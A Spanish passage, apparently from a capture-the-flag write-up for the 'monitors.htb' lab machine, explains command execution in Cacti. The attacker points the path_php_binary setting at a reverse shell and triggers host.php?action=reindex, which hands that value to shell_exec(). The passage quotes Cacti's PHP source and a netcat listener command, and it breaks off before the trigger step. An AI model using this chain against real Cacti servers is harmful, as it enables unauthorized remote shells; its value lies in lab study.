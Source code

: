 Al modificar el parámetro `path_php_binary` en la tabla _settings_ para que apunte a una _reverse shell_ en lugar del ejecutable de PHP, conseguimos que el sistema ejecute nuestro comando. Esto sucede porque `Cacti` utiliza el valor de este parámetro en la función `host_reindex()`, ubicada en el archivo [host.php]( https://github.com/Cacti/cacti/blob/develop/host.php). La lógica detrás de esto es la siguiente:

```php
switch (get_request_var('action')) {
	case 'reindex':
		host_reindex();

		header('Location: host.php?action=edit&id=' . get_request_var('host_id'));

		break;
}
```

Cuando el parámetro _action_ es igual a `reindex`, se ejecuta la función `host_reindex()`, la cual utiliza la función _shell_exec()_ para ejecutar el comando definido en `path_php_binary`. Esto permite que nuestra _reverse shell_ se ejecute en lugar del script PHP legítimo. El código de la función `host_reindex()` es el siguiente:

```php
function host_reindex() {    
    global $config;

	$start = microtime(true);

	shell_exec(read_config_option('path_php_binary') . ' -q ' . CACTI_PATH_CLI . '/poller_reindex_hosts.php --qid=all --id=' . get_filter_request_var('host_id'));

	$end = microtime(true);

	$total_time = $end - $start;

	$items = db_fetch_cell_prepared('SELECT COUNT(*)
		FROM host_snmp_cache
		WHERE host_id = ?',
		array(get_filter_request_var('host_id'))
	);

	raise_message('host_reindex', __('Device Reindex Completed in %0.2f seconds.  There were %d items updated.', $total_time, $items), MESSAGE_LEVEL_INFO);
}
```

Una vez hemos modificamos el parámetro `path_php_binary`, pondremos nuestra máquina en escucha a través de `Netcat` para recibir la reverse shell:

```
nc -nlvp 443
```

Podemos dirigirnos a [http://cacti-admin.monitors.htb/cacti/host.php?action=reindex](http://cacti-admin.monitors.htb/cacti/host.php?action=reindex) o, desde la propia consola, ejecutarla con:
